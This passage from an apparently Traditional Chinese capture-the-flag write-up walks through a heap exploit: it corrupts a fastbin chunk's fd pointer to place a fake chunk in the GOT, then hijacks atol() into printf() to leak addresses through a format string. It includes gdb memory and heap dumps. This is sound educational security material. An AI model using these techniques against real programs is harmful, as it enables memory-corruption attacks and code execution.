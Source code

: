 強大的 [angelheap](https://github.com/scwuaptx/Pwngdb/tree/master/angelheap) 告訴我們在 fastbin[2] (size = 0x40) 與 fastbin[4] (size = 0x60) 各有一個 freed chunk。我們首先 allocate fastbin[4] 裡頭的 chunk，並將 data 複製進裡面，offset 設成 `0x60`。這麼一來，`0xc26c20` + `0x60` = `0xc62c80` = chunk @ fastbin[2]，我們就可以控制到 fastbin[2] 裡頭的 chunk 的 data。我們主要的目的是要將其 `fd` 改掉，指向 GOT :
```
gdb-peda$ got
State of the GOT table

RELRO: Partial

[1] printf@GLIBC_2.2.5 -> 0x00007ffff72c7800
[2] __gmon_start__ -> 0x0000000000400ab6
[3] puts@GLIBC_2.2.5 -> 0x0000000000400ac6
[4] _Znam@GLIBCXX_3.4 -> 0x0000000000400ad6
[5] _ZdlPv@GLIBCXX_3.4 -> 0x0000000000400ae6
[6] setvbuf@GLIBC_2.2.5 -> 0x00007ffff72e1e70
..................
```
我們可以看到，一個 non-PIE 的 x64 ELF 的 GOT 裡頭，有許多開頭為 `0x40` 的 address。如果我們將 memory layout 進行偏移:
```
gdb-peda$ x/30gx 0x604042
0x604042 <setvbuf@got.plt+2>:   0x0b0600007ffff72e      0x2740000000000040 <-- here
0x604052 <__libc_start_main@got.plt+2>: 0xfad000007ffff729      0x0b3600007ffff72d
0x604062 <strlen@got.plt+2>:    0x0b46000000000040      0x73c0000000000040 <-- here
0x604072 <signal@got.plt+2>:    0x0b6600007ffff72a      0xd650000000000040 <-- here
0x604082 <alarm@got.plt+2>:     0x0b8600007ffff733      0x0b96000000000040 <-- here
```
我們會發現到有許多地方是可以拿來當作假的 fastbin[2] chunk (size = 0x40) 來用的。因此，如果我們將 fastbin[2] 裡面的 `chunk->fd` 寫成 `0x604042` 的話:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x1da3cc0 --> 0x0
(0x40)     fastbin[2]: 0x1da3c80 --> 0x604042 (size error (0xc740000000000040)) --> 0x9ad000007f5e059a (invaild memory)
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x1da3c20 --> 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x1da3f80 (size : 0x1c080) 
       last_remainder: 0x1da3e00 (size : 0x50) 
            unsortbin: 0x0
```
我們可以發現到， fastbin[2] 裡頭多出了一個假的 fastbin[2] chunk `0x604042`。之後我們就可以把這個 fake chunk 拿來用，將 data 複製進這個 chunk 裡面，做 GOT hijacking。

> malloc.c 裡面針對 fastbin 的檢查很殘廢。對於 malloc 一個 fastbin[2] 而言，只要其 size (unsigned int, 4 個 byte) 為 0x40 ~ 0x4f，就可以通過 malloc() 的檢查，allocate 成功。

雖然目前可以 hijack GOT 了，但是我們還不知道 libc 的版本為何。這題不好 leak address，因為我們參數幾乎都是不可控的狀態 (頂多就是可以控制 buffer 內容，但是無法控制 buffer 位址)。這邊最後想到了一個有趣的解法: **利用 format string**。

我們可以將 `atol()` hijack 成 `printf()`，之後程式在呼叫 `atol(input)`的時候，實際上就是在執行 `printf(input)`，我們就可以透過 format string 漏洞 leak 任意位址。
